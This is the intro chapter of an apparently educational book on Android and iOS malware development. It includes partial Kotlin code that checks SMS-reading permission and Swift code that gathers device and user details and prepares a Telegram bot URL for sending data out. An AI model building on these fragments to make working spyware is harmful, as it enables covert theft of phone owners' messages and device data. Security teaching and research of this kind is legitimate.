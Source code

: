 ```yaml
---
header-includes:
 - \usepackage{fvextra}
 - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,commandchars=\\\{\}}
---
```


## 2. mobile malware development intro

In this book I will show you a little about how you can create simple malware on `Android` and `iOS`, and I will show examples and tricks from real malware found in the wild during the years.      

Most of the tutorials in this book require a understanding of the `Kotlin`:    

```kotlin
package cocomelonc.hack.tools

import android.Manifest
import android.annotation.SuppressLint
import android.content.Context
import android.content.pm.PackageManager
import android.net.Uri
import android.provider.Telephony.Sms

class HackSmsLogs (private val context: Context) {
    @SuppressLint("NewApi")
    private fun isSmsPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.READ_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }
    //....
}
```

and `Swift` programming languages:

```swift
import Foundation
import SystemConfiguration.CaptiveNetwork
import Network

public class HackManager {
    public static let shared = HackManager(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private let locationManager = LocationManager()
    private let monitor = NWPathMonitor()

    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }
    
    // collect systeminfo
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
}
```

The book is divided into three logical chapters:    
- Android Malware Development Intro    
- iOS Malware Development Intro    
- Mobile Malware in the Wild    

*Please do not ignore sections 4,5,6 (even if you've already read it just refresh your memory) these are important concepts for future mobile malware sections**    

All material in the book is based on my trainings/workshop from
[Prishtina](https://github.com/cocomelonc/bsprishtina-2024-maldev-workshop/) and [my](https://cocomelonc.github.io/) own articles.    

If you have questions, you can ask them on my [email](mailto:cocomelonkz@gmail.com).    

My Github repo: [https://github.com/cocomelonc](https://github.com/cocomelonc)    

**Everything written in this book was used for understanding concepts and for educational and research purposes, the author is not responsible for your illegal activities!**    